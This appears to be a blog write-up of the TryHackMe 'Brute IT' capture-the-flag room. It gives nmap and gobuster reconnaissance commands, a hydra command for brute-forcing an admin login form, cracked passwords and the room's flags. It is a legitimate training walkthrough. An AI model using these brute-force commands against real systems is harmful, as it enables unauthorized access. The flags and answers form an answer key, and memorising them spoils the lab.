 ```yaml
---
title: "Brute IT - TryHackMe"
author: Ludovic COULON
date: 2021-01-27
hero: ./images/hero.jpg
excerpt: "Learn how to brute, hash cracking and escalate privileges in this box!"
---
```


[TryHackMe | Brute IT](https://tryhackme.com/room/bruteit)

In this box you will learn about:

- Brute-force
- Hash cracking
- Privilege escalation

---

## Before attacking, let's get information about the target

### Search for open ports using nmap, how many ports are open?

```bash
Desktop/TryHackMe/brut_it » nmap -A -vv 10.10.93.226 -oN nmap_result
```

![./images/Untitled.png](./images/Untitled.png)

```bash
2 ports are open.
```

### What version of SSH is running?

```bash
OpenSSH 7.6p1
```

![./images/Untitled1.png](./images/Untitled1.png)

### What version of Apache is running?

```bash
2.4.29
```

![./images/Untitled2.png](./images/Untitled2.png)

### Which Linux distribution is running?

```bash
ubuntu
```

![./images/Untitled3.png](./images/Untitled3.png)

### Search for hidden directories on web server, what is the hidden directory?

```bash
Desktop/TryHackMe/brut_it » gobuster -u 10.10.93.226 -w /opt/directory-list-2.3-medium.txt
```

![./images/Untitled4.png](./images/Untitled4.png)

```bash
# Hidden directory 
/admin
```

---

## Find a form to get a shell on SSH.

### What is the user:password of the admin panel?

![./images/Untitled5.png](./images/Untitled5.png)

As you can see, there is the user and password in the form data, we can use this to brute-force the login with hydra.

Hidden message

![./images/Untitled6.png](./images/Untitled6.png)

```bash
# Hydra command (Pretty straightforward)
hydra -l admin -P /opt/rockyou.txt 10.10.93.226 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![./images/Untitled7.png](./images/Untitled7.png)

```bash
# Credentials 
admin:xavier
```

### Crack the RSA key you found, what is John's RSA Private Key passphrase?

![./images/Untitled8.png](./images/Untitled8.png)

```bash
# Password for the private key is
rockinroll
```

### user.txt

```bash
THM{a_password_is_not_a_barrier}
```

![./images/Untitled9.png](./images/Untitled9.png)

### Web flag

![./images/Untitled10.png](./images/Untitled10.png)

```bash
THM{brut3_f0rce_is_e4sy}
```

---

### Find a form to escalate your privileges, what is the root's password?

```bash
# Password for the root user
football
```

![./images/Untitled11.png](./images/Untitled11.png)

### Root.txt

```bash
THM{pr1v1l3g3_3sc4l4t10n}
```

![./images/Untitled12.png](./images/Untitled12.png)

